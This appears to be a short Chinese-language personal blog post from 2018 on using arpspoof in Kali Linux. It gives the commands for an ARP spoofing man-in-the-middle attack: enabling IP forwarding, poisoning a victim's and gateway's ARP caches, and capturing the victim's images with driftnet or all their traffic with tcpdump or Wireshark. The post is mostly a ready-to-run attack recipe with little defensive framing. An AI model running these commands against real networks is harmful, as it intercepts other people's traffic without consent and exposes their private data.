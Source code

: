 ```yaml
---
title: Kali arpspoof
date: 2018-12-20 09:10:53
categories:
  - 电脑使用
tags:
  - Linux
---
```

spoof	英[spu:f] n.	哄骗; 讽刺; 戏弄; （进行） 滑稽的模仿;

# arpspoof使用 #

启用IP转发(不转发会导致受害者主机无法访问网络)

	echo 1 >> /proc/sys/net/ipv4/ip_forward

启动arpspoof。Usage: arpspoof [-i interface] [-t target] host(网关ip)

	arpspoof -i eth0 -t 192.168.1.5 192.168.1.1

捕获图片请求(另开一个终端)

	driftnet -i eth0

也可以使用tcpdump或Wireshark工具截获所有流量

说明：可以通过 `arp` 命令分别查看攻击者和受害者主机的arp缓存表来理解arp欺骗



